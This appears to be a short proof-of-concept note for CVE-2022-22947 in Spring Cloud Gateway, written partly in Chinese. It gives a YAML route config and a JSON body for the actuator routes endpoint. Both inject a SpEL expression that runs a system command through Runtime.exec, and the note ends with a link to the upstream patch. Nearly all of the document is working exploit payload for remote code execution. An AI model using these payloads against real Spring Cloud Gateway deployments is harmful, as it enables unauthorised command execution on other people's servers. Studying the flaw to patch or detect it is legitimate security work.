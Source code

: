 # CVE-2022-22947


## POC

**edit yml config**

在配置文件中新增路由

```yml
spring:
  cloud:
    gateway:
      routes:
      - id: after_route
        uri: https://example.org
        predicates:
        - name: Cookie
          args:
            name: "#{T(java.lang.Runtime).getRuntime().exec('whoami')}"
            regexp: mycookievalue
```

**from actuator api**

根据 actuator api[^1],可以利用 `/gateway/routes/{id_route_to_create}` 接口来刷新路由

```json
{
  "id": "first_route",
  "predicates": [
    {
      "name": "Cookie",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec('whoami')}",
        "_genkey_1": "mycookievalue"
      }
    }
  ],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

## Patch

> [Comparing v3.0.6...v3.0.7 · spring-cloud/spring-cloud-gateway](https://github.com/spring-cloud/spring-cloud-gateway/compare/v3.0.6...v3.0.7)


[^1]: [11. Actuator API](https://cloud.spring.io/spring-cloud-gateway/multi/multi__actuator_api.html)